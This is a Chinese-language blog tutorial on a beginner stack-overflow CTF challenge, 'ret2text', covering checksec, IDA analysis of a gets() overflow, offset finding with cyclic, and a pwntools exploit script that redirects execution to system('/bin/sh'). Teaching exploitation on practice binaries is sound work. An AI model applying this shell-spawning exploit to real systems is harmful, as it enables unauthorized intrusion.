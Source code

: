 ```yaml
---

layout:     post
title:      ret2text
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2text)



本文讲解栈溢出中，最简单的利用

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



第一步

利用pwntools的checksec查看elf文件的保护措施

```
#checksec ret2text

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



第二步

利用file命令，查看文件信息

```
file ret2text

ret2text: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
```



第三步

ida分析程序，双击左边的main函数，然后按F5，出现伪C代码

![image-20180911153947593](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-074400.jpg)



简单分析，能够发现第九行gets函数存在溢出，

![image-20180911154339254](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-074405.png)



buf的长度为0x64=100，如果gets函数接收到的数据长度大于100，肯定会覆盖buf外的数据

![image-20180911154833684](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-075031.png)



第四步

定位覆盖函数返回地址的位置

cyclic 200

![image-20180911160406996](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-080411.png)



gdb -q ret2text，run命令运行程序，然后把cyclic生成的字符串输入

![image-20180911160327983](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-080333.png)

观察eip寄存器的值，变成了0x62616164，main函数返回地址被覆盖为0x62616164



cyclic -l 0x62616164

![image-20180911160531664](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081819.png)



第五步

确定函数的ret返回地址

![image-20180911160642678](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081739.png)



双击system函数

![image-20180911160718703](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081743.png)



选中system函数，按x快捷键

![image-20180911160739851](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081747.png)



进入程序调用system函数的代码区，我们发现程序直接执行了system('/bin/sh')

![image-20180911160820091](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081758.png)



我们让main函数的ret地址返回到这里执行system('/bin/sh')

按一下tab键

![image-20180911161021606](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081755.png)

确定system('/bin/sh')的汇编代码的地址为 0x0804863A，0x08048641是call system函数，但是调用函数之前需要传递参数，0x0804863A是传递参数的过程，两句汇编代码结合起来就是system('/bin/sh')这句c代码



exp脚本：

```
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
	sh = remote('127.0.0.1', 4444)
else:
	sh = process('./ret2text')

system_addr = 0x804863A
sh.sendline('a'*112 + p32(system_addr))

sh.interactive()
```


